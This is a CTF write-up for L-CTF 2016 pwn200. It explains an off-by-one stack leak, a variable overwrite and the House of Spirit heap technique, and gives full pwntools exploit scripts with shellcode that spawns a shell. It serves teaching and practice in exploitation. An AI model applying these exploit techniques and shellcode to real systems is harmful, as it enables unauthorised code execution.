### L-CTF 2016 pwn200
程序运行
程序分析
#### 漏洞简介
**The house of Spirit**
> The House of Spirit is a little different from other attacks in the sense that it involves an attacker overwriting an existing pointer before it is 'freed'. The attacker creates a 'fake chunk', which can reside anywhere in the memory (heap, stack, etc.) and overwrites the pointer to point to it. The chunk has to be crafted in such a manner so as to pass all the security tests. This is not difficult and only involves setting the size and next chunk's size. When the fake chunk is freed, it is inserted in an appropriate binlist (preferably a fastbin). A future malloc call for this size will return the attacker's fake chunk. The end result is similar to 'forging chunks attack' described earlier.

[The House Of Spirit](https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit.html)


#### 程序运行
1. **初始内容**
```
who are u?
Bill
Bill, welcome to xdctf
give me your id ~~?
001
give me money~
10000
```
2. **主要内容**
```
=======EASY HOTEL========
1. check in
2. check out
3. goodbye
```
**check in**: `malloc`
**check out**: `free`
**good bye**: `exit`
#### 程序分析
**1. checksec**
![result](./02.png)

**2. 漏洞一 (`off by one`)**
![result](./01.png)

> 当输入`48`个字符时, 会触发`off by one`漏洞, 将`0x400A8E`函数栈帧`RBP`打印出来.

**2. 漏洞二 (变量覆盖)**

![result](./03.png)

### 漏洞利用
**两种思路**
1. **思路(非HOS)**: 初始时输入`shellcode`, 泄露`RBP`,找出`Shellcode`地址. 覆盖dest变量值为`free@got`, `buf`中为`shellcode_addr + 其他任意字符`, 最后:输入`2`, 执行`free`(就是执行我们的`shellcode`).
```
#coding = utf8
from pwn import *
context(log_level="debug")

p = process('./pwn200')
elf = ELF('./pwn200')
free_got = elf.got["free"]

gdb.attach(p)
p.recvuntil('u?\n')

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
p.send(shellcode+"a"*(48-len(shellcode)))

ebp = u64(p.recvuntil(' me your id ~~?\n')[48:48+6].ljust(8,'\x00')) # leak stack address
print "ebp = "+hex(ebp)
offset = 0x00007fff401d62e0 - 0x00007fff401d6290
shellcode_addr = ebp - offset
print "shellcode_addr = " + hex(shellcode_addr)
p.sendline('0') #id

p.recvuntil('\n')

payload = p64(shellcode_addr)
p.send(payload + '\x00'*(0x38-len(payload)) + p64(free_got))  #the juck data must be '\x00' in the got!
p.recvuntil('choice :')
p.sendline('2')
p.interactive()
```
2.**思路(HOS)**: 修改`0x400A29`函数的返回值地址为`shellcode`地址, 退出即可.
**leak address**
```
payload  = ''
payload += shellcode.ljust(48)
p.recvuntil('who are u?\n')
p.send(payload)
p.recvuntil(payload)

rbp_addr = u64(p.recvn(6).ljust(8, '\x00'))
shellcode_addr = rbp_addr - 0x50 # 20H + 30H
print "shellcode_addr: ", hex(shellcode_addr)
fake_addr = rbp_addr - 0x90 # 修改函数返回值地址用
```
**free(fake_addr)**
```
data = p64(0)*4 + p64(0) + p64(0x41) # p64(0)*4, strcpy不会复制任何字符到fake_addr
data = data.ljust(56, '\x00') + p64(fake_addr)
print data
p.send(data)

p.recvuntil('choice : ')
p.sendline('2') 	# free(fake_addr)
```
**malloc**
```
p.recvuntil('choice : ')
p.sendline('1')
p.recvuntil('long?')
p.sendline('48')    # 48 + 16 = 64 = 0x40, 大小要和fastbin中的大小一致, 这样才会返回我们的fake_addr
p.recvline('48')    # ptr = malloc(48)

data = 'a' * 0x18 + p64(shellcode_addr) # write to target_addr
data = data.ljust(48, '\x00')
```
**Quit**
```
p.recvuntil('choice')
p.sendline('3')

p.interactive()
```
### The Whole EXP
```
from pwn import *

context.log_level = 'debug'
# p = remote('127.0.0.1', 7777)
p = process('./pwn200')

free_got = 0x0000000000602018

shellcode = asm(shellcraft.amd64.linux.sh(), arch = 'amd64')

gdb.attach(p)
#part one
payload  = ''
payload += shellcode.ljust(48)

p.recvuntil('who are u?\n')
p.send(payload)
p.recvuntil(payload)

rbp_addr = u64(p.recvn(6).ljust(8, '\x00'))

shellcode_addr = rbp_addr - 0x50 # 20H + 30H
print "shellcode_addr: ", hex(shellcode_addr)
fake_addr = rbp_addr - 0x90 # offset 0x40 to shellcode, 0x400a29 return address


p.recvuntil('give me your id ~~?\n')
p.sendline('32') # id
p.recvuntil('give me money~\n')


#part two
#32bytes padding + prev_size + size + padding + fake_addr
data = p64(0) * 4 + p64(0) + p64(0x41)		# no strcpy
data = data.ljust(56, '\x00') + p64(fake_addr)
print data
p.send(data)

p.recvuntil('choice : ')
p.sendline('2') 	# free(fake_addr)

p.recvuntil('choice : ')
p.sendline('1') 	#malloc(fake_addr) #fake_addr

p.recvuntil('long?')
p.sendline('48')    # 48 + 16 = 64 = 0x40
p.recvline('48')    # ptr = malloc(48)

data = 'a' * 0x18 + p64(shellcode_addr) # write to target_addr
data = data.ljust(48, '\x00')

p.send(data)

p.recvuntil('choice')
p.sendline('3')

p.interactive()
```
### Related Link
[堆之House of Spirit ](https://www.anquanke.com/post/id/85357)(EXP不行)
